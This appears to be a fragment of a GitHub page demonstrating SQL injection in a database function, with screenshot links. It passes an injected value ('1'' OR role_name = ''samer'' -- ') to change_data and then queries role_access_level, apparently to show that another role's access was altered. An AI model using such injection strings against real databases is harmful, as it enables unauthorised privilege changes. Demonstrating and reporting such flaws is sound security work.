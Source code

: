 SELECT * FROM change_data('1'' OR role_name = ''samer'' -- ', 1);

SELECT  * FROM role_access_level;

![3](https://user-images.githubusercontent.com/93474882/209404246-1cfbe0d1-5238-4109-a023-fa3ad091c0cd.png)
